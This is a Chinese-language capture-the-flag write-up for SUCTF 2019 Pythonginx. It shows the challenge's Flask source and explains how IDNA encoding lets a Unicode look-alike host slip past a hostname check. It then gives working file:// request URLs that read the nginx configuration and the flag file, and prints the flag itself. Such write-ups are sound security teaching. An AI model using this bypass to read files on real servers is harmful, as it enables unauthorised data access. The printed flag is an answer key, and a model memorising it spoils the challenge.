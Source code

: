 # [SUCTF 2019]Pythonginx

[题目地址](https://buuoj.cn/challenges#[SUCTF%202019]Pythonginx)

缝合怪题目。

网站源码如下：

```python
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
</head>
<body>
    <form method="GET" action="getUrl">
        URL:<input type="text" name="url"/>
        <input type="submit" value="Submit"/>
    </form>

    <code>
        
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':   #hostname中不能出现suctf.cc
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]  #不懂这里在检查什么，也是hostname中不能出现suctf.cc的意思
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8')) #先转成idna再用utf-8解码，这里有问题
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname  #经过转换后的url再取出hostname
    if host == 'suctf.cc':  #这回hostname又需要有suctf.cc了，说明正是转换环节出现了问题
        return urllib.request.urlopen(finalUrl).read() #读取url指定的文件。可以用file://协议
    else:
        return "我扌 your problem? 333"
    </code>
    <!-- Dont worry about the suctf.cc. Go on! -->
    <!-- Do you know the nginx? -->
</body>
</html>
```

[urlparse和urlsplit](https://blog.csdn.net/weixin_47383889/article/details/121521553)基本差不多，只不过urlsplit不支持匹配params字段。[idna](https://www.cnblogs.com/cimuhuashuimu/p/11490431.html)是国际化域名，这篇文章里也写了，先用idna编码再解码会得到不同字符，可用来绕过字符过滤。[wp](https://blog.csdn.net/mochu7777777/article/details/127140963)甚至详细列举了有那些字符经过这种转换可以得到同样的结果。

最后是思考读取什么文件。提示说`Do you know the nginx?`，有点脑洞，竟然要读取nginx的配置文件。

- http://96111498-35f4-446d-882c-9dd2a66c195d.node4.buuoj.cn:81/getUrl?url=file://%F0%9D%91%86uctf.cc/usr/local/nginx/conf/nginx.conf

```
server { listen 80; location / { try_files $uri @app; } location @app { include uwsgi_params; uwsgi_pass unix:///tmp/uwsgi.sock; } location /static { alias /app/static; } # location /flag { # alias /usr/fffffflag; # } }
```

里面写了flag在/usr/fffffflag下。读取完事。

- http://96111498-35f4-446d-882c-9dd2a66c195d.node4.buuoj.cn:81/getUrl?url=file://%F0%9D%91%86uctf.cc/usr/fffffflag

## Flag
> flag{aaacbbaa-3478-461a-873a-c0385f70d7ee}